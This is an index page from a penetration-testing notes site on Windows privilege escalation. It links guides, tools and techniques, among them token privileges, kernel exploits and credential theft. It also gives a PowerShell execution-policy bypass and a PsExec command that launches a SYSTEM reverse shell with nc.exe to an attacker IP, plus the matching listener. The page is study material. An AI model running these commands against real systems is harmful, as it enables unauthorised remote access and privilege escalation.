

repository: amandaguglieri/hackinglife · page: index-windows-privilege-escalation/index.html · generator: mkdocs

---
title: Index for Windows Privilege Escalation
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - privilege escalation
  - windows
---
# Index for Windows Privilege Escalation

??? note "Guides to have at hand"
    - [HackTricks](https://book.hacktricks.xyz/).  Written by the creator of WinPEAS and LinPEAS.
    - [Vulnhub PrivEsc Cheatsheet](https://github.com/Ignitetechnologies/Privilege-Escalation).
    - [s0cm0nkey's Security Reference Guide](https://s0cm0nkey.gitbook.io/s0cm0nkeys-security-reference-guide/).


This is a nice summary related to Local Privilege Escalation by [@s4gi_](https://twitter.com/s4gi_/status/866501430374301696/photo/1):

![local-privilege-escalation.jpg](img/local-privilege-escalation.jpg)


## Enumeration scripts

!!! abstract "Enumeration scripts"
	
    - [Windows Privilege Escalation Awesome Scripts: winPEAS tool](winpeas.md).
    - [Seatbelt](seatbelt.md).
    - [JAWS](jaws.md).


## Elevate privileges

### From local Administrator to nt authority\system

!!! note "Quick checks"
	 [PrivescCheck - Latest release](https://github.com/itm4n/PrivescCheck/releases/latest/)-  Download the script here: [PrivescCheck.ps1](https://github.com/itm4n/PrivescCheck/releases/latest/download/PrivescCheck.ps1) 
	
	Run:
	```powershell
	powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Report PrivescCheck_$($env:COMPUTERNAME) -Format TXT,HTML"
	```


Checkout architecture (to know which binaries will work):

```powershell
echo %PROCESSOR_ARCHITECTURE%
# From powershell
cmd.exe /c echo %PROCESSOR_ARCHITECTURE%
```

Based on output, upload necessary binaries. Next, launch a Local Administrator reverse shell:

```powershell
.\PsExec.exe -accepteula -s -d  c:\temp\nc.exe $attackerIP 4444 -e cmd.exe
```

Beforehand, set a listener on the kali attacker machine:

```bash
nc -lnvp 4444
```




## Privilege escalation techniques  


- User privileges:
	- [Abusing User privileges](windows-user-privileges.md)
		- [SeImpersonatePrivilege](seimpersonateprivilege.md)
			   - [JuicyPotato: SeImpersonate or SeAssignPrimaryToken](juicypotato.md)
	        - [PrintNightmare](printnightmare.md)
	        - [Print Spooler / PrintSpoofer: SeImpersonatePrivilege + Windows Print Spooler service](printspoofer.md)
	        - [Godpotato](godpotato.md)
        - [SeDebugPrivilege](sedebugprivilege.md)
        - [SeLoadDriverPrivilege](seloaddriverprivilege.md)
        - [SeManageVolumePrivilege](semanagevolumeprivilege.md)
        - [SeRestorePrivilege](serestoreprivilege.md)
	    - [SeTakeOwnershipPrivilege](setakeownershipprivilege.md)
	    - [SeTcbPrivilege](setcbprivilege.md)
- [Abusing Group privileges](windows-group-privileges.md)
- [Access Control List (ACL)Abuse](access-control-list-abuse.md) 
- [UAC User Account Control](uac-user-account-control.md)
- [Abusing weak permissions](windows-abusing-weak-permissions.md)
- [Kernel exploits](windows-kernel-exploits.md):
	   - MS08-067.
    - MS17-010 (EternalBlue).
    - ALPC Task Scheduler 0-Day.
	- [HiveNightmare, aka SeriosSam (CVE-2021-36934)](hivenightmare.md).
    - [PrintNightmare](printnightmare.md).
    - [Print Spooler](printspoofer.md).
    - Enumerating Missing Patches.
    - CVE-2020-0668: Windows Service Tracing
- Services:
	- [Abusing processes in windows](abusing-processes-windows.md)
	- [Abusing vulnerable services](abusing-vulnerable-services.md)
	- [DLL Injection](dll-injection.md)
    - [Named Pipes](named-pipes.md)
    - Registry.
    - [Windows binaries: LOLBAS](windows-binaries.md).
    - bin Path.
    - Creating a service with PsExec.
- Password Mining:
	- [Credentials Hunting](windows-credentials.md)
	- [Cached SAM](active-directory-from-windows-privilege-escalation.md#attacking-sam).
	- [Cached LSASS](active-directory-from-windows-privilege-escalation.md#attacking-lsass).
	- [Pass The Hash](pass-the-hash.md).
	- Logs.
	- Memory: mimiktenz, Process Dump (minidump).
	- .rdp Files.
- [Mount VHDX/VMDK](windows-mount-vHDX-VMDK.md)
- Registry: 
	- Registry: HKCU\Software\USERNAME\PuTTY\Sessions, AutoLogon, VNC.
	- Autorun.
	- [AlwaysInstallElevated](alwaysinstallelevated.md)
- Certificates:
	- [CVE-2019-1388 hhupd.exe](CVE-2019-1388.md)
- [Scheduled Tasks](scheduled-tasks.md) 
- [User/Computer Description Field](windows-user-computer-description-field.md)
- Restricted environments:
	- [Citrix breakout](citrix-breakout.md)
- [Pillaging](pillaging-windows.md)
- [End of Life Systems](windows-end-of-life-systems.md)
- [User interaction](user-interaction-windows.md)



## Privilege escalation tools

- [CrackMapexec](crackmapexec.md).
- [mimikatz](mimikatz.md).
